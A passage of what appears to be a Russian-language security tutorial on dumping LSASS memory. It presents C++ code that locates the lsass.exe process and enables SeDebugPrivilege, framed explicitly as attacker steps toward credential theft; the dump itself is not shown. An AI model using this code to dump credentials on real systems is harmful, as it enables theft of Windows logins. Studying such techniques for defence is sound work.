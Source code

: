Прежде всего, мы находим процесс `lsass.exe` с помощью такой функции:     

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // снимок всех процессов в системе
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // инициализация размера: необходимо для использования Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // информация о первом процессе в снимке системы
  hResult = Process32First(hSnapshot, &pe);

  // получение информации о процессах
  // выход при неудаче
  while (hResult) {
    // если процесс найден: возвращаем его ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // закрываем открытый дескриптор (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

Необходимо иметь привилегию `SeDebugPrivilege`, чтобы создать дамп `LSASS` в качестве атакующего:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```
